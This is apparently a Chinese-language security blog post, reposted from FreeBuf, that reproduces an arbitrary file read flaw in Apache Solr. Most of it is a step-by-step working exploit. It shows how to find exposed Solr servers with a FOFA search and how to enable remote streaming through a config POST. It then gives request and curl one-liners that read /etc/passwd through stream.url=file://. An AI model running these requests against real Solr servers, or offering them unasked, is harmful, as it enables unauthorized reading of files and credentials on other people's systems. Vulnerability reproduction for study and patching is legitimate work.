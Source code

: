 ```yaml
---
layout: post
title: Apache Solr 任意文件读取漏洞复现
categories: [安全漏洞]
description: Apache Solr 任意文件读取漏洞复现

keywords: 安全漏洞, Apache Solr
---
```




# 前言

Apache Solr是一个开源的搜索服务，使用Java语言开发，主要基于HTTP和Apache Lucene实现。

## 漏洞详情

近日skay师傅在审计solr的时候发现了一个任意文件读取漏洞，由于官方拒绝修复该漏洞，所以漏洞影响范围为Apache Solr全版本。

**影响范围**： Apache Solr全版本

## 漏洞复现

得到漏洞情报后，我们抓紧复现下。

首先fofa搜索 app="APACHE-Solr"

![](https://image.3001.net/images/20210318/1616046376_6052e928bd474562159ac.jpg!small)

打开首页：

![](https://image.3001.net/images/20210318/1616046402_6052e942145d8e6c33f73.jpg!small)


我们需要先获取cores配置信息

```
http://target.com/solr/admin/cores?indexInfo=false&wt=json
```

![](https://image.3001.net/images/20210318/1616046411_6052e94bc4ea8e11dc5f7.jpg!small)

接下来向服务器构造请求：

```

GET 请求
URL：
http://target.com/solr/db/config  //db替换为cores配置中的name参数


POST data：
{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```

或者使用curl:

```
curl -d '{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://target.com/solr/db/config -H 'Content-type:application/json'
```


最后构造请求读取文件：

```
URL:
http://target.com/solr/db/debug/dump?param=ContentStreams  //db替换为cores配置中的name参数

POST data:
stream.url=file:///etc/passwd
```

或者使用curl：

```
curl "http://target.com/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file:///etc/passwd"
```

![](https://image.3001.net/images/20210318/1616046431_6052e95f6a9aec148591d.jpg!small)

## 参考链接：

转载 https://www.freebuf.com/vuls/266648.html

https://mp.weixin.qq.com/s/HMtAz6_unM1PrjfAzfwCUQ

https://mp.weixin.qq.com/s/iX2OasjynZ0MAvNTvIcmjg